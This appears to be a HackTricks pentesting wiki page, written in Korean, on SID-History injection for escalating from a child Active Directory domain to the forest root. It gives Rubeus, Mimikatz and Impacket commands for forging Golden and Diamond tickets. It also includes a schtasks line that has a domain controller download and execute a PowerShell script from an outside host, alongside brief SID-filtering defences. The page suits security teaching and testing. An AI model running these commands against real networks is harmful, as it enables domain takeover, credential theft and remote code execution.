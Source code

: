 # SID-History Injection

{{#include ../../banners/hacktricks-training.md}}

## SID History Injection Attack

**SID History Injection Attack**의 초점은 **도메인 간 사용자 마이그레이션**을 지원하면서 이전 도메인의 리소스에 대한 지속적인 접근을 보장하는 것입니다. 이는 **사용자의 이전 보안 식별자(SID)를 새로운 계정의 SID History에 통합함으로써** 이루어집니다. 특히, 이 과정은 상위 도메인에서 고급 권한 그룹(예: Enterprise Admins 또는 Domain Admins)의 SID를 SID History에 추가하여 무단 접근을 부여하도록 조작될 수 있습니다. 이 악용은 상위 도메인 내의 모든 리소스에 대한 접근을 부여합니다.

이 공격을 실행하는 방법은 **Golden Ticket** 또는 **Diamond Ticket**의 생성 두 가지가 있습니다.

**"Enterprise Admins"** 그룹의 SID를 찾으려면 먼저 루트 도메인의 SID를 찾아야 합니다. 식별 후, Enterprise Admins 그룹 SID는 루트 도메인 SID에 `-519`를 추가하여 구성할 수 있습니다. 예를 들어, 루트 도메인 SID가 `S-1-5-21-280534878-1496970234-700767426`인 경우, "Enterprise Admins" 그룹의 결과 SID는 `S-1-5-21-280534878-1496970234-700767426-519`가 됩니다.

**Domain Admins** 그룹도 사용할 수 있으며, 이는 **512**로 끝납니다.

다른 도메인의 그룹(SID, 예: "Domain Admins")을 찾는 또 다른 방법은:
```bash
Get-DomainGroup -Identity "Domain Admins" -Domain parent.io -Properties ObjectSid
```
> [!WARNING]
> SID 히스토리를 신뢰 관계에서 비활성화할 수 있으며, 이로 인해 이 공격이 실패할 수 있습니다.

[**문서**](https://technet.microsoft.com/library/cc835085.aspx)에 따르면:
- **netdom 도구를 사용하여 포리스트 신뢰에서 SIDHistory 비활성화** (`netdom trust /domain: /EnableSIDHistory:no on the domain controller`)
- **netdom 도구를 사용하여 외부 신뢰에 SID 필터 격리 적용** (`netdom trust /domain: /quarantine:yes on the domain controller`)
- **단일 포리스트 내 도메인 신뢰에 SID 필터링 적용**은 지원되지 않는 구성으로 인해 권장되지 않으며, 파괴적인 변경을 초래할 수 있습니다. 포리스트 내 도메인이 신뢰할 수 없는 경우, 해당 도메인은 포리스트의 구성원이 되어서는 안 됩니다. 이 경우, 신뢰할 수 있는 도메인과 신뢰할 수 없는 도메인을 별도의 포리스트로 분리하여 SID 필터링을 적용할 수 있는 상호 포리스트 신뢰를 설정해야 합니다.

이 우회에 대한 자세한 정보는 이 게시물을 확인하세요: [**https://itm8.com/articles/sid-filter-as-security-boundary-between-domains-part-4**](https://itm8.com/articles/sid-filter-as-security-boundary-between-domains-part-4)

### 다이아몬드 티켓 (Rubeus + KRBTGT-AES256)

마지막으로 이 시도를 했을 때, **`/ldap`** 인수를 추가해야 했습니다.
```bash
# Use the /sids param
Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:512 /sids:S-1-5-21-378720957-2217973887-3501892633-512 /krbkey:390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa /nowrap /ldap

# Or a ptt with a golden ticket
## The /ldap command will get the details from the LDAP (so you don't need to put the SID)
## The /printcmd option will print the complete command if later you want to generate a token offline
Rubeus.exe golden /rc4:<krbtgt hash> /domain:<child_domain> /sid:<child_domain_sid>  /sids:<parent_domain_sid>-519 /user:Administrator /ptt /ldap /nowrap /printcmd

#e.g.

execute-assembly ../SharpCollection/Rubeus.exe golden /user:Administrator /domain:current.domain.local /sid:S-1-21-19375142345-528315377-138571287 /rc4:12861032628c1c32c012836520fc7123 /sids:S-1-5-21-2318540928-39816350-2043127614-519 /ptt /ldap /nowrap /printcmd

# You can use "Administrator" as username or any other string
```
### Golden Ticket (Mimikatz) with KRBTGT-AES256
```bash
mimikatz.exe "kerberos::golden /user:Administrator /domain:<current_domain> /sid:<current_domain_sid> /sids:<victim_domain_sid_of_group> /aes256:<krbtgt_aes256> /startoffset:-10 /endin:600 /renewmax:10080 /ticket:ticket.kirbi" "exit"

/user is the username to impersonate (could be anything)
/domain is the current domain.
/sid is the current domain SID.
/sids is the SID of the target group to add ourselves to.
/aes256 is the AES256 key of the current domain's krbtgt account.
--> You could also use /krbtgt:<HTML of krbtgt> instead of the "/aes256" option
/startoffset sets the start time of the ticket to 10 mins before the current time.
/endin sets the expiry date for the ticket to 60 mins.
/renewmax sets how long the ticket can be valid for if renewed.

# The previous command will generate a file called ticket.kirbi
# Just loading you can perform a dcsync attack agains the domain
```
골든 티켓에 대한 자세한 정보는 다음을 확인하세요:


{{#ref}}
golden-ticket.md
{{#endref}}


다이아몬드 티켓에 대한 자세한 정보는 다음을 확인하세요:


{{#ref}}
diamond-ticket.md
{{#endref}}
```bash
.\asktgs.exe C:\AD\Tools\kekeo_old\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local
.\kirbikator.exe lsa .\CIFS.mcorpdc.moneycorp.local.kirbi
ls \\mcorp-dc.moneycorp.local\c$
```
손상된 도메인의 KRBTGT 해시를 사용하여 루트 또는 엔터프라이즈 관리자의 DA로 상승:
```bash
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-211874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\AD\Tools\krbtgt_tkt.kirbi"'

Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"'

gwmi -class win32_operatingsystem -ComputerName mcorpdc.moneycorp.local

schtasks /create /S mcorp-dc.moneycorp.local /SC Weekely /RU "NT Authority\SYSTEM" /TN "STCheck114" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1''')'"

schtasks /Run /S mcorp-dc.moneycorp.local /TN "STCheck114"
```
획득한 권한으로 새로운 도메인에서 예를 들어 DCSync 공격을 실행할 수 있습니다:

{{#ref}}
dcsync.md
{{#endref}}

### 리눅스에서

#### [ticketer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py) 수동 사용
```bash
# This is for an attack from child to root domain
# Get child domain SID
lookupsid.py <child_domain>/username@10.10.10.10 | grep "Domain SID"
# Get root domain SID
lookupsid.py <child_domain>/username@10.10.10.10 | grep -B20 "Enterprise Admins" | grep "Domain SID"

# Generate golden ticket
ticketer.py -nthash <krbtgt_hash> -domain <child_domain> -domain-sid <child_domain_sid> -extra-sid <root_domain_sid> Administrator

# NOTE THAT THE USERNAME ADMINISTRATOR COULD BE ACTUALLY ANYTHING
# JUST USE THE SAME USERNAME IN THE NEXT STEPS

# Load ticket
export KRB5CCNAME=hacker.ccache

# psexec in domain controller of root
psexec.py <child_domain>/Administrator@dc.root.local -k -no-pass -target-ip 10.10.10.10
```
#### Automatic using [raiseChild.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/raiseChild.py)

이것은 **자식 도메인에서 부모 도메인으로의 상승을 자동화하는** Impacket 스크립트입니다. 스크립트는 다음이 필요합니다:

- 대상 도메인 컨트롤러
- 자식 도메인의 관리자 사용자에 대한 자격 증명

흐름은 다음과 같습니다:

- 부모 도메인의 Enterprise Admins 그룹에 대한 SID를 얻습니다.
- 자식 도메인의 KRBTGT 계정에 대한 해시를 검색합니다.
- Golden Ticket을 생성합니다.
- 부모 도메인에 로그인합니다.
- 부모 도메인의 Administrator 계정에 대한 자격 증명을 검색합니다.
- `target-exec` 스위치가 지정된 경우, Psexec를 통해 부모 도메인의 도메인 컨트롤러에 인증합니다.
```bash
raiseChild.py -target-exec 10.10.10.10 <child_domain>/username
```
## References

- [https://adsecurity.org/?p=1772](https://adsecurity.org/?p=1772)
- [https://www.sentinelone.com/blog/windows-sid-history-injection-exposure-blog/](https://www.sentinelone.com/blog/windows-sid-history-injection-exposure-blog/)

{{#include ../../banners/hacktricks-training.md}}
